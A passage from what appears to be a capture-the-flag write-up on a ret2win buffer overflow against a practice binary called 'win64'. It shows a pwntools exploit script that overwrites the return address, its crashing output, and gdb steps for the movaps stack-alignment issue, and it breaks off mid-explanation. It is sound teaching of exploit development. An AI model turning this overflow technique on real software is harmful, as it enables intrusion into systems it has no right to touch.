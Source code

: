 Let's craft our exploit:

```python
from pwn import *

proc = process('./win64')

f_win = 0x401196

payload = b'A' * 56
payload += p64(f_win)

proc.sendline(payload)
proc.interactive()
```

Running this produces the following output:

```nasm
$ python3 exploit.py 
[+] Starting local process './win64': pid 20651
[*] Switching to interactive mode
Can you figure out how to win here?
[*] Got EOF while reading in interactive
$ 
[*] Process './win64' stopped with exit code -11 (SIGSEGV) (pid 20651)
[*] Got EOF while sending in interactive
```

Hmmm. This isn't working. We know this because we reached EOF (end of file) before we got to the interactive shell. Something's not quite right with the payload.

### The `movaps` Problem

We can modify our payload to run a `gdb` instance on the binary using our payload to ensure that it executes properly.

```python
proc = gdb.debug('./win64', gdbscript=gdbcmds)
```

`gdb.debug` takes the secondary argument of `gdbscript` which is the list of commands you want to run automatically. This allows for rapid debugging by consistently jumping to the same spot in memory. In our case, we set `gdbcmds` to:

```python
gdbcmds = '''
b *read_in+54
c
'''
```

This is going to set a breakpoint right before the `gets()` call (which we did manually) and then continue (because a breakpoint is automatically set at `_start()`).

If we reach the end of `read_in`, we notice, based on the execution flow, that it intends to go to `win()`:
